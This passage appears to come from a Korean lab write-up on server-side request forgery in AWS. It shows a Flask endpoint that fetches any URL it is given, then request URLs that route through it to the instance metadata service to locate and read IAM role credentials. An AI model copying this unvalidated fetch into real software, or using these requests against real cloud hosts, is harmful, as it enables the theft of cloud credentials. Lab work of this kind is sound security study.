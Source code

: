 ```python
from flask import Flask, request
import urllib
from urllib import parse

app = Flask(__name__)

@app.route("/go", methods=["GET"])
def route():
    url = request.args.get("url")

    if url:
        try:
            req = urllib.request.Request(url)
            with urllib.request.urlopen(req) as response:
                data = response.read()
        except:
            return "Error"
        return data
    else:
        return "Require URL parameter."

app.run(host='0.0.0.0', port=5001)
```

### 4.2 **IAM Role credential 획득**

1. **meta-data 접근** : [http://43.200.141.64:5001/go?url=http://169.254.169.254/latest/meta-data](http://43.200.141.64:5001/go?url=http://169.254.169.254/latest/meta-data)

![Untitled](/assets/2022-11-01/Untitled%201.png)

→ iam 디렉토리가 없다면, Instance에 IAM Role을 할당했는지 확인 

2. **할당된 IAM Role 확인** : [http://43.200.141.64:5001/go?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/](http://43.200.141.64:5001/go?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/hzone_role)

![Untitled](/assets/2022-11-01/Untitled%202.png)
